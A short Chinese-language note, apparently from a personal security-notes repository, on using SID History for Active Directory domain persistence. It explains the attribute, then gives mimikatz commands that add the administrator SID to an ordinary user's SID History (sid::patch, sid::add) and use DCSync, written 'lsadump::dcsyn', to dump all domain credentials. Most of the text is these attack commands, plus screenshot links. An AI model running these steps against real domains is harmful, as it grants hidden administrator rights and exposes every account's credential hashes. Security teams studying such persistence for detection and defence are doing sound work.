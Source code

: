 # SID History 域维权

##### SID History

根据微软的描述，SID History 属性是微软对域内用户进行域迁移的支持而创建的。每当对象从一个域移动到另一个域时，都会创建一个新的 SID，并且该新 SID 将成为 objectSID。先前的 SID 会添加到 SID History 属性中，以确保该用户迁移后仍然能访问迁移前能访问的资源。

```
mimikatz.exe

lsadump::dcsyn /all /csv

# 无权限。
```

![image-20250217165316767](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217165316767.png)

```
# 将 administrator 的 sid 添加到 deandean 的 SID History 属性中

privilege::debug

sid::patch

sid::add /sam:deandean /new:administrator
```

![image-20250217165412710](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217165412710.png)

![image-20250217165521283](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217165521283.png)

重新攻击

```
mimikatz.exe

lsadump::dcsyn /all /csv
# 域控认为用户 deandean 是 administrator 迁移的，所以给他 administrator 
```

![image-20250217165944523](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217165944523.png)
